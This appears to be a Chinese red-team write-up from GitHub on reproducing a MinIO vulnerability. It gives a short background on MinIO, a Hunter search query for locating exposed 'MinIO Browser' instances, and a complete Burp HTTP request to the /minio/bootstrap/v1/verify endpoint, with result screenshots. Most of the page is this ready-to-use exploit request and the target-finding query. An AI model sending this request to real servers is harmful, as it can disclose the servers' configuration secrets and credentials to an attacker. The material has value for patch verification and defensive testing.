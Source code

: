 ## 0x00 漏洞背景

   这个漏洞影响范围还是有的，打红队碰见过一次，决定复现一下。
   
   MinIO是一个基于Apache开源协议的对象存储服务，它兼容亚马逊S3云存储服务接口，非常适合于存储大容量非结构化的数据，例如图片、视频、日志文件、备份数据和容器/虚拟机镜像等。
   
   
   ![图片](https://user-images.githubusercontent.com/118274389/229670622-e84633a3-76a0-4d0e-a779-bf3bb23e0393.png)

   
   hunter语法：web.title="MinIO Browser"
   
## 0x01 漏洞复现

  burp数据包
  
  ```
  POST /minio/bootstrap/v1/verify HTTP/1.1
  Host: 
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Upgrade-Insecure-Requests: 1
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 0
  
  ```


![图片](https://user-images.githubusercontent.com/118274389/229673313-fd6ca315-1c63-4d5d-9427-2ae5ebd9c3e8.png)
